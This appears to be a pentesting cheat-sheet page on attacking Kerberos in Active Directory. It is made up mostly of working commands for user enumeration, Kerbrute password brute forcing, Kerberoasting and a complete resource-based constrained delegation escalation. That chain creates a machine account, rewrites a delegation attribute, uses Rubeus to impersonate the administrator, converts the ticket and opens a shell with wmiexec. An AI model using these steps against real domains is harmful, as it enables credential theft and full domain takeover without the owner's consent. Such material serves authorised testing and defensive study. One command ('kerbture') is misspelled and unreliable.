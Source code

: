 ```yaml
---
title: Kerberos Pentesting
description: An authentication protocol that is used to verify the identity of a user or host. It uses cryptography for authentication and is consisted of the client, the server, and the Key Distribution Center (KDC). A default port is 88. Kerberos also uses a 464 port for changing passwords.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
date: 2023-08-26
draft: false
---
```


## Enumeration

To enumerate automatically, you can use nmap.

```sh
nmap --script krb5-enum-users --script-args krb5-enum-users.realm='example.local'-p 88 <target-ip>
```

<br />

### Brute Force Authentication

**[Kerbrute](https://github.com/ropnop/kerbrute)** is a tool to perform Kerberos pre-auth bruteforcing.  
The wordlist (e.g. combos.txt) specified must be the "username:password" combinations.

```sh
# -v: verbose mode *it's recommended to add this flag otherwise we cannot confirm if the user exist or not.
# --dc: domain controller
# -d: domain
# combos.txt: the wordlist specified must be combinations with "username:password".
kerbrute bruteforce -v --dc 10.0.0.1 -d example.domain combos.txt

# Users enumeration
kerbrute userenum -v --dc 10.0.0.1 -d example.domain usernames.txt

# Brute force user's password
kerbture bruteuser -v --dc 10.0.0.1 -d example.domain passwords.txt username
```

Also, see **[AS-REP Roasting](/exploit/windows/active-directory/as-rep-roasting/)** to find password hashes.

<br />

### Kerberoasting Attack

Kerberoasting is a attack technique to crack passwords in Active Directory using a credential already gathered.

```bash
impacket-GetUserSPNs -hashes <lmhash>:<nthash> example.local/username -outputfile hashes.txt
```

<br /><br />

## Privilege Escalation with Kerberos

First off, download two PS scripts in local machine..

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```

Then upload them to the target machine.

```bash
# Evil-WinRM
upload PowerView.ps1
Import-Module .\PowerView.ps1
upload Powermad.ps1
Import-Module .\Powermad.ps1
```

<br />

### 1. Check User's Permission and Windows Versions

Check if users are allowed to create a new computer object on the domain.

```bash
Get-DomainObject -Identity "dc=example,dc=com" -Domain example.com

# -------------------------
# Result
ms-ds-machineaccountquota: 10
```

And check if the machine is at least Windows Server 2012.

```bash
Get-DomainController

# -------------------------
# Result
OSVersion: Windows Server 2022 Standard
```

Additionally, check if the target computer does not have the attributes **“msds-allowedtoactionbehalfofotheridentity”** set.

```bash
hostname
Get-NetComputer <hostname> | Select-Object -Property name, msds-allowedtoactionbehalfofotheridentity

# ------------------
# Result
name msds-allowedtoactionbehalfofotheridentity
---- ----------------------------------------
<HOSTNAME>   {1, 0, 4, 128...}
```

<br />

### 2. Create a New Computer

Now you can create a new computer object.

```bash
New-MachineAccount -MachineAccount TEST01 -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)
Get-DomainComputer test01

# ----------------------
# Result (copy the id)
objectsid: S-1-5-21-1677581083-3380853377-188903654-5103
```

Create a new raw security descriptor.

```bash
# Paste the objectsid which was copied in previous section.
$objectsid = "S-1-5-21-1677581083-3380853377-188903654-5103"

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$objectsid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $(hostname) | Set-DomainObject -Set @{'msds-allowedtoactionbehalfofotheridentity'=$SDBytes} -Verbose
```

<br />

### 3. Impersonate to Get a Ticket

Download Rubeus.exe in local machine.

```bash
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
```

Then upload it to the target machine and generate a RC4 hash.

```bash
# Evil-WinRM
upload Rubeus.exe
.\Rubeus.exe hash /password:12345 /user:test01 /domain:example.com

# -------------------------
# Result (copy the rc4 hash)
rc4_hmac: 32ED87BDB5FDC5E9CBA88547376818D4

```

We can request a Kerberos ticket for a new machine account while impersonating an administrator.

```bash
.\Rubeus.exe s4u /user:test01$ /rc4:<rc4-hash> /impersonateuser:administrator /msdsspn:cifs/<hostname>.example.com /ptt

# --------------
# Result (copy the output long hash at the last)
```

Then generate a ticket (**`.kirbi`**).

```bash
[IO.File]::WriteAllBytes("C:\Users\<username>\Documents\ticket.kirbi", [Convert]::FromBase64String("<new-output-hash>"))
download ticket.kirbi
```

<br />

### 4. Make the Ticket Usable and Use It

Download “ticket_converter.py”.

```bash
wget https://raw.githubusercontent.com/zer1t0/ticket_converter/master/ticket_converter.py
```

Destroy any tickets in local machine, and convert the ticket to Linux usable, then set the new ticket’s path.

```bash
kdestroy
python3 ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

We can use the ticket to get a shell.

```bash
impacket-wmiexec example.com/administrator@<hostname>.example.com -no-pass -k
```

